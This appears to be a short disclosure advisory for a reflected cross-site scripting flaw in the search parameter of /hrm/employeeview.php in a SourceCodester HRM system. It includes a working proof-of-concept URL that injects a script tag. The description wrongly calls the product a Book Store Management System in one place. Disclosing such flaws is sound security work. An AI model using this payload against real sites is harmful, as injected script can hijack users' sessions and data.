 # Human Resource Management System 1.0 Reflected XSS

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A Reflected cross-site scripting (XSS) vulnerability in /hrm/employeeview.php with search handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeview.php

Proof of Concept:

http://localhost/hrm/employeeview.php?searchview=Submit+Query&search=sss%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cinput

![](images/xss-confirm.png)